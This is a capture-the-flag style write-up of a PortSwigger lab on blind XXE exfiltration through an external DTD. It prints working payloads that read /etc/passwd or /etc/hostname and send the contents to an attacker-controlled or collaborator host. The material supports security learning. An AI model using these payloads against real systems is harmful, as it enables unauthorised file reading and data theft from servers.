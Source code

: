 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7ac3d0f2-66e3-4016-b19b-ed3298d5a8ae)

## Overview :

It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request
to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```xml
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> This technique might not work with some file contents, including the newline characters contained in the /etc/passwd file. This is because some XML parsers fetch the URL in the external entity
> definition using an API that validates the characters that are allowed to appear within the URL. In this situation, it might be possible to use the FTP protocol instead of HTTP. Sometimes, it
> will not be possible to exfiltrate data containing newline characters, and so a file such as /etc/hostname can be targeted instead. 

## Solution :

Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/2
Host: 0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Cookie: session=2K3jJ6C0GNurtpvuyrqmYZYeIU1ITlX1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to solve the lab, we need to make the application to fetch our malicious DTD file with the payload to  retreive `/etc/hostname` & then send the exfiltrated data back to our server.

#### Steps -

1. The application parses the XML entitiy & tries to fetch the malicious DTD hosted at exploit server
2. Payload of exploit server gets executed. Means the application retreives the `/etc/hostname` of the vulnerable server.
3. THe vulnerable server now sends the exfiltrated data back to our collaborator server.

#### Craft the payload

In the request to check the stock, we can  insert the following external entity definition in between the XML declaration and the stockCheck element: 

```xml

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0a1800a6032c20998658e88b0120001e.exploit-server.net/exploit"> %xxe;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ytv10aart4un8pz41up9szpvvm1dp2.oastify.com/?%file;'>">
%ent;
%exfiltrate;
```
Host this `malicious.dtd` file in our exploit server.

> NOTE- We need to send the exfiltrated data (**/etc/hostname**) back to our collaborator server. So provide colab server's address.

When we send the request, we get a response stating that - `XML parsing error`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/598b1687-ab63-4964-a5b3-2c4edee76c3e)

But if we check our collaborator server, we can see that few HTTP & DNS requests were made. The HTTP request made to our server contains the output of our payload in the GET request header .

`/etc/hostname` - `6837f702d700`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/19dc61a2-651c-4030-a810-80b0b608af0b)

Submit the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4f4f951-6cf9-445c-8ea3-772ac924e75b)

